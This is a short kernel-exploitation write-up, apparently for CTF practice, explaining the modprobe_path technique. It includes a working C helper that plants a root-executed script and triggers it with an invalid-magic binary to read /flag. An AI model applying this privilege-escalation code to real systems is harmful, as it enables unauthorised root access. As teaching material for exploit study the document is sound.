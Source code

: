 ```yaml
---
date: '2025-01-14T19:30:00Z'
draft: false
title: 'Kpwn tecniques: modprobe_path'
summary: "modprobe_path is a global variable that in most kernels is RW. This variable is contains a path to an executable, do you see where this is going..?"

categories: ["Docs"]
tags: ["kernel"]
author: "leo_something"
---
```


## Modbprobe path

When a binary with unknown magic bytes/shebang gets executed the kernel tries to load a module to handle that binary type.

To load this module it uses modprobe, whose path is stored in a **kernel global variable** called `modprobe_path`, which is RW (there are actually some mitigations for this).

Modprobe is **executed as root** using this path. 

If we have an arbitrary write primitive we can trick the kernel into running our own binary/script as root.

#### Exploitation
Write in `modeprobe_path` the path of your binary/script (this should be `<path>/x`).

Then call this function to automate the rest:
```c
void modprobe(char* path){
  int size = strlen(path) + 0x20;
  char flag_dest[size];
  char flag[size];
  char trigger[size];
  char modprobe_sh_script[size];

  snprintf(flag_dest, size, "%s/flag_dest", path);
  snprintf(modprobe_sh_script, size, "%s/x", path);
  snprintf(flag, size, "/flag");
  snprintf(trigger, size, "%s/b", path);


    const char format[102] = {"touch %s;"
        "echo -e '#!/bin/sh\ncat %s > %s' > %s;"
        "echo -e '\xff\xff\xff\xff' > %s;"
        "chmod +x %s; chmod +x %s;"

        "%s;"
        "cat %s;"
    };

    char cmd[sizeof(format) + size*9];

    snprintf(cmd, sizeof(cmd), format, flag_dest, flag, flag_dest, modprobe_sh_script, trigger, modprobe_sh_script, trigger, trigger, flag_dest);
    system(cmd);
}
```
**NOTE:** `path` must be a directory writeable by your user

This function executed the following commands:
- Writes our sh script `<path>/x`
	- the script cats the flag inside a file (`<path>/flag_dest`) readable by the unprivileged user
- Creates a "binary" with unknown magic bytes (0xffffffff)
- Makes our script and the "invalid binary" executable
- Executes the "invalid binary", triggering the use of `modprobe_path`, which is set to our sh script (`<path>/x`). This executes our script with root privileges, the script in turn reads the flag and writes it to a readable location (`<path>/flag_dest`).
- Print the flag from `<path>/flag_dest`

## Useful links
- https://sam4k.com/like-techniques-modprobe_path/